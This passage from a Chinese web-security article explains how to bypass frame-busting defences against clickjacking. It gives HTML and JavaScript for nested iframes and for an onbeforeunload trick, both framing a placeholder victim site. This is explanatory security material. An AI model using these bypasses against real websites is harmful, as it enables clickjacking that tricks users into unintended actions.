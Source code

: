 ```
```

0x02 绕过的几种方式
------------

对于使用parent.location来防御的可以使用多层嵌套的方式绕过。

### 一、例如防御代码为：

```
if(top.location!=self.location){
     parent.location = self.location;
}

```

建立两个页面：

1.html代码为：

```
<iframe src="2.html">

```

2.html代码为：

```
<iframe src="http://www.victim.com">

```

访问1.html之后可以看到页面并无跳转等动作。

![http://static.wooyun.org/20141017/2014101711515250154.png](http://drops.javaweb.org/uploads/images/646127dba6ac24915bc193559b972e6cd6a7716c.jpg)

### 二、onBeforeUnload函数的利用：

onBeforeUnload的介绍以及各种浏览器的支持情况请见：

http://w3help.org/zh-cn/causes/BX2047

如下的防御代码：

```
if(top != self) top.location.replace(location);

```

新建立页面，代码如下：

```
<script>
var framekiller = true;
window.onbeforeunload = function() { if(framekiller) { return
"Write something here to keep people stay!";} };
</script>
<iframe src="http://www.victim.com/">

```
